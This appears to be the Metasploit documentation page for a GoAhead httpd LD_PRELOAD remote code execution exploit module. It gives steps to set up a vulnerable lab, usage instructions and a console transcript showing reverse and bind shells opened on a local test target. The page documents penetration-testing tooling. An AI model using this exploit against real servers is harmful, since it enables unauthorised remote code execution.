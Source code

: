 ## Vulnerable Application

  The GoAhead httpd server between versions 2.5 and 3.6.4 are vulnerable to an arbitrary code execution
  vulnerability where a remote attacker can force a supplied shared library to be loaded into the process
  of a CGI application. This module delivers a shared library payload as the raw data to a POST request
  and forces this to be loaded by specifying a `LD_PRELOAD` value of `/proc/self/fd/0`.

### Kali 2017.3 and Ubuntu 16.04 Install Instructions

These instructions are based on the vulnerability analysis by [elttam.com.au](https://www.elttam.com.au/blog/goahead/)

```
git clone https://github.com/embedthis/goahead.git
cd goahead/
git checkout tags/v3.6.4 -q
make > /dev/null
cd test
gcc ./cgitest.c -o cgi-bin/cgitest
../build/linux-x64-default/bin/goahead . 127.1.1.1:8080
```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/goahead_ldpreload```
  4. Do: ```set rhost [ip]```
  5. Do: ```exploit```
  6. You should get a shell.

## Options

### TARGET_URI

  Optional. The full path to a CGI endpoint on the target server.

## Scenarios

### GoAhead 3.6.4 on Ubuntu 16.04 x64

```

msf> use exploit/linux/http/goahead_preload
msf exploit(goahead_ldpreload) > set RHOST 127.1.1.1
msf exploit(goahead_ldpreload) > set RPORT 8080
msf exploit(goahead_ldpreload) > check

[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[+] 127.1.1.1:8080 The target is vulnerable.

msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 4 opened (127.0.0.1:4444 -> 127.0.0.1:32988) at 2017-12-28 16:26:50 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
exit

msf exploit(goahead_ldpreload) > set TARGET 1
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[*] Started bind handler
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 5 opened (127.0.0.1:30836 -> 127.1.1.1:4444) at 2017-12-28 16:28:04 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
exit

msf exploit(goahead_ldpreload) > set TARGET 2
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP double handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo sNRXNjxWl7ic0uWw;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "sNRXNjxWl7ic0uWw\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 6 opened (127.0.0.1:4444 -> 127.0.0.1:32995) at 2017-12-28 16:28:56 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


msf exploit(goahead_ldpreload) > set TARGET 4
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 7 opened (127.0.0.1:4444 -> 127.0.0.1:33000) at 2017-12-28 16:29:34 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```


## Logging

Each 404 error will generate a console or log entry similar to `goahead: 0: Cannot find CGI program:`.
